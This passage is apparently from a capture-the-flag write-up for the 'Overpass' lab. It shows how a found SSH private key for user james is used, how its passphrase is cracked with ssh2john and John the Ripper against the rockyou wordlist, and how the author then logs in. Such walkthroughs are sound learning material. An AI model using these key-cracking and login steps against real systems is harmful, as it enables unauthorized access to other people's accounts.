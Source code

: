 ### So, we have `id_rsa` file with private RSA key and the user is probably `james`, let's try to login via ssh:
```bash
└─$ sudo chmod 600 ./id_rsa
```

```bash
└─$ ssh -i id_rsa james@<ip>
```
![Screenshot](./images/screen7.png)

### Passphrase... No problem, JohnTheRipper will definitely help us!
```bash
└─$ ssh2john id_rsa > id_rsa.hash
```

```bash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
![Screenshot](./images/screen8.png)

### Success! Let's try logging in again:
```bash
james@overpass-prod:~$ echo "$(whoami) $(id) $(lsb_release -a)"
No LSB modules are available.
james uid=1001(james) gid=1001(james) groups=1001(james) Distributor ID:        Ubuntu
Description:    Ubuntu 18.04.4 LTS
Release:        18.04
Codename:       bionic
```

